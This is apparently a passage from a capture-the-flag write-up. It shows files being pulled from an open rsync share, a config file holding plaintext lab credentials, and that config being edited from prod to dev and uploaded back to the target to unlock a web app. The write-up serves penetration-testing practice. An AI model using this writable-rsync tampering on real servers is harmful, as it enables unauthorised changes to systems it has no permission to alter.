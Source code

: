 - list the downloaded files:
  
     ```zsh
     ls -l
     total 193
     -rw------- 1 502 dialout  4620 Jul 21 03:54 access.conf
     -rw-r--r-- 1 502 dialout  1341 Apr 10 01:26 bluezone.ini
     -rw------- 1 502 dialout  2969 Jul 21 03:54 debconf.conf
     -rw------- 1 502 dialout   332 Jul 21 03:54 ldap.conf
     -rw------- 1 502 dialout 94404 Jul 21 03:54 lvm.conf
     -rw-r--r-- 1 502 dialout  9005 Apr 10 01:28 mysql.ini
     -rw-r--r-- 1 502 dialout 70207 Apr 10 01:26 php.ini
     -rw------- 1 502 dialout   320 Jul 21 03:54 ports.conf
     -rw------- 1 502 dialout   589 Jul 21 03:54 resolv.conf
     -rw------- 1 502 dialout    29 Jul 21 03:54 screen-cleanup.conf
     -rw------- 1 502 dialout  9542 Jul 21 03:54 smb.conf
     -rw-rw-r-- 1 502 dialout    72 Apr 11 01:33 webapp.ini
     ```

- `webapp.ini` looks kinda intresting
  
     ```bash
     cat webapp.ini 
     [Web_App]
     env = prod
     user = tom
     password = theCat

     [Details]
     Local = No
     ```

     seems like we have a wokring config, where currently `env` sets to **prod** and we can actually change and re-upload to the server. let's try doing this.

     replace `env = prod` to `env = dev`

- reuploading `webapp.ini` to the server

     ```zsh
     rsync -av rsync/webapp.ini rsync://10.10.38.244:873/Conf/webapp.ini  
     sending incremental file list
     webapp.ini

     sent 171 bytes  received 41 bytes  84.80 bytes/sec
     total size is 71  speedup is 0.33
     # uploaded the edited file
     ```

### re-visiting the web

- this time web-application actually worked!

     ![img](https://i.imgur.com/Am4aEwe.png)
